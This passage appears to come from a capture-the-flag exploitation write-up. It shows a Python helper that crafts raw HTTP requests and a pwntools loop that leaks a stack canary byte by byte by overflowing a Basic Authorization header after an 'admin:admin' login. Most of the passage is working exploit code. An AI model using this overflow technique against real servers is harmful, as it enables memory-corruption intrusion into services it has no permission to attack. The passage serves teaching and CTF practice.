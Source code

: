 

We can start to write utility functions in our exploit to make it easier:

```py
# Crafts a HTTP request
def make_request(headers, verb='GET', filename='/', http='HTTP/1.1', body=b''):
    req = f'{verb} {filename} {http}\r\n'.encode()
    for h in headers:
        req += h + b': ' + headers[h] + b'\r\n' 
    req += b'\r\n'
    if body:
        req += body
    return req
```



For example, we can leak the canary byte by byte with this code:

```python
canary = b'\x00' # stack canaries LSB is always a nullbyte

p = log.progress('Leaking canary')

while len(canary) < 8:
    for guess in range(0x100):
        p.status(f'Trying {guess:02x}')
        # We need to have a valid authentication to reach the "checkAuth" function
        login = b'admin:admin\x00' 
        login += b'A'*252 # Canary offset
        login += canary + p8(guess)

        auth = b'Basic ' + base64.b64encode(login)

        req = make_request(headers={
            b'Authorization': auth,
            b'Connection': b'keep-alive',
        })

        r.send(req)

        req = make_request(headers={
            b'Connection': b'keep-alive',
        })

        # Here we send another request to fill the receive buffer
        # with another message, so that if we crash with the first request
        # we still got the output of the second, and we avoid I/O issues.
        r.send(req) 

        res = r.recvuntil('?')

        # If "Congratulations" is in the response, everything went fine
        # We found a valid canary byte
        if b"Congratulations" in res:
            canary += p8(guess)
            log.success('Found byte 0x%02x' % guess)
            break

        # If we didn't find any byte, we exit
        # Should never happen, but with I/O issues it is still possible.
        if guess == 0xff:
            log.failure('Failed to find canary byte')
            exit(1)

canary = u64(canary)
```